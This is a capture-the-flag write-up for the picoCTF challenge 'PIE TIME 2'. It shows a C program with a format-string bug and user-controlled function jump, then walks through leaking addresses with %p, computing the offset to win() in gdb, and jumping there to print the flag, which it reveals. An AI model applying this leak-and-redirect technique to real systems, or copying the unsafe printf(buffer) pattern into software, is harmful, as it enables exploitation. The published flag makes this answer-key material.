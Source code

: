 # PIE TIME 2

## Description

Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

So, here we given two things.
The program's source code can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/0ee50c4c94b334e2007d91218ac385470257261765b09a6620226865a05bf468/vuln.c). The binary can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/0ee50c4c94b334e2007d91218ac385470257261765b09a6620226865a05bf468/vuln).

The source code is

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```


We are trying to locate the memory address of the win function. Because it opens up the flag.txt. This is the file where the file is stored.
However, as the memory address is randomised after every execution, we need a memory leak to figure out the general area it is being stored in the memory.
To get an idea of where it is stored in the memory, we can use this format string string vulnerability.

The printf function in the code does not have format string specified. There if we enter format string like %p, instead of printing the exact string, it will actually print out the return address as %p is a pointer that stores the memory addresses.

```
└─$ nc rescued-float.picoctf.net 51826
Enter your name:Hacker
Hacker
 enter the address to jump to, ex => 0x12345: zzz
Segfault Occurred, incorrect address.
```
But when we enter the %p

```
└─$  nc rescued-float.picoctf.net 51826
Enter your name:%p
0xa70
 enter the address to jump to, ex => 0x12345: zzz
Segfault Occurred, incorrect address.
```
It will give the memory address.

So, as this vulnerability leaks the address for this current execution.
We can now use gdb and use their disassemble function to help us visualise the memory address of specific functions and compare them to the once that are leaked.
**This is because the offset between the functions always remains the same.**

```
nc rescued-float.picoctf.net 51826
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x592f191282a1 (nil) 0x592f191282dc 0x7fffb3e74c20 0x7c 0x7fffb3e8b228 0x7d8872c956a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7f000a702520 0x592f091b41c0 0x621bc74da6e0dc00 0x7fffb3e74c80 0x592f091b4441 (nil)
```
We start with comparing the leaked addresses with the win function. But there is no matches with 0x592f091b4441

```
gef➤  disassemble win
Dump of assembler code for function win:
   0x000055555555536a <+0>:     endbr64
   0x000055555555536e <+4>:     push   rbp
   0x000055555555536f <+5>:     mov    rbp,rsp
   0x0000555555555372 <+8>:     sub    rsp,0x10
   0x0000555555555376 <+12>:    lea    rdi,[rip+0xcf6]        # 0x555555556073
   0x000055555555537d <+19>:    call   0x555555555110 <puts@plt>
   0x0000555555555382 <+24>:    lea    rsi,[rip+0xcf3]        # 0x55555555607c
   0x0000555555555389 <+31>:    lea    rdi,[rip+0xcee]        # 0x55555555607e
   0x0000555555555390 <+38>:    call   0x555555555190 <fopen@plt>
   0x0000555555555395 <+43>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000555555555399 <+47>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x000055555555539e <+52>:    jne    0x5555555553b6 <win+76>
   0x00005555555553a0 <+54>:    lea    rdi,[rip+0xce0]        # 0x555555556087
   0x00005555555553a7 <+61>:    call   0x555555555110 <puts@plt>
   0x00005555555553ac <+66>:    mov    edi,0x0
   0x00005555555553b1 <+71>:    call   0x5555555551b0 <exit@plt>
   0x00005555555553b6 <+76>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00005555555553ba <+80>:    mov    rdi,rax
   0x00005555555553bd <+83>:    call   0x555555555150 <fgetc@plt>
   0x00005555555553c2 <+88>:    mov    BYTE PTR [rbp-0x9],al
   0x00005555555553c5 <+91>:    jmp    0x5555555553e1 <win+119>
   0x00005555555553c7 <+93>:    movsx  eax,BYTE PTR [rbp-0x9]
   0x00005555555553cb <+97>:    mov    edi,eax
   0x00005555555553cd <+99>:    call   0x555555555100 <putchar@plt>
   0x00005555555553d2 <+104>:   mov    rax,QWORD PTR [rbp-0x8]
   0x00005555555553d6 <+108>:   mov    rdi,rax
   0x00005555555553d9 <+111>:   call   0x555555555150 <fgetc@plt>
   0x00005555555553de <+116>:   mov    BYTE PTR [rbp-0x9],al
   0x00005555555553e1 <+119>:   cmp    BYTE PTR [rbp-0x9],0xff
   0x00005555555553e5 <+123>:   jne    0x5555555553c7 <win+93>
   0x00005555555553e7 <+125>:   mov    edi,0xa
   0x00005555555553ec <+130>:   call   0x555555555100 <putchar@plt>
   0x00005555555553f1 <+135>:   mov    rax,QWORD PTR [rbp-0x8]
   0x00005555555553f5 <+139>:   mov    rdi,rax
   0x00005555555553f8 <+142>:   call   0x555555555120 <fclose@plt>
   0x00005555555553fd <+147>:   nop
   0x00005555555553fe <+148>:   leave
   0x00005555555553ff <+149>:   ret
End of assembler dump.
gef➤  

```
we tried for main function and the last third is a identical match. This means the third last part of the main function always point out to leak address.
```
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000555555555400 <+0>:     endbr64
   0x0000555555555404 <+4>:     push   rbp
   0x0000555555555405 <+5>:     mov    rbp,rsp
   0x0000555555555408 <+8>:     lea    rsi,[rip+0xfffffffffffffe9a]        # 0x5555555552a9 <segfault_handler>
   0x000055555555540f <+15>:    mov    edi,0xb
   0x0000555555555414 <+20>:    call   0x555555555170 <signal@plt>
   0x0000555555555419 <+25>:    mov    rax,QWORD PTR [rip+0x2bf0]        # 0x555555558010 <stdout@@GLIBC_2.2.5>
   0x0000555555555420 <+32>:    mov    ecx,0x0
   0x0000555555555425 <+37>:    mov    edx,0x2
   0x000055555555542a <+42>:    mov    esi,0x0
   0x000055555555542f <+47>:    mov    rdi,rax
   0x0000555555555432 <+50>:    call   0x555555555180 <setvbuf@plt>
   0x0000555555555437 <+55>:    mov    eax,0x0
   0x000055555555543c <+60>:    call   0x5555555552c7 <call_functions>
   0x0000555555555441 <+65>:    mov    eax,0x0
   0x0000555555555446 <+70>:    pop    rbp
   0x0000555555555447 <+71>:    ret
End of assembler dump.
```

Now we will use a hex calculator to find the offset between the main function address and the win function that allow us to know how far the win function address to the leaked address from the main address.

Win function address - 0x000055555555536a
Leaked address - 0x0000555555555441

Offset = 0x0000555555555441 - 0x000055555555536a = 0xD7

Now we run the command 

```
─$ nc rescued-float.picoctf.net 51826
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x6454433372a1 (nil) 0x6454433372dc 0x7fffb8d030d0 0x7c 0x7fffb8da4228 0x7bea247406a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7f000a702520 0x6454200751c0 0x8ff5c23eb86b9300 0x7fffb8d03130 0x645420075441 (nil)
 enter the address to jump to, ex => 0x12345: 0x64542007536A
You won!
picoCTF{p13_5h0u1dn'7_134k_1ef23143}

```
And it will ask the name we will enter
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

And we get the leak address 0x645420075441
So, 0x645420075441 - 0xD7 = 0x64542007536A
Then we will subtract the offset from it and get the memory address to jump. 

### Flag - picoCTF{p13_5h0u1dn'7_134k_1ef23143}







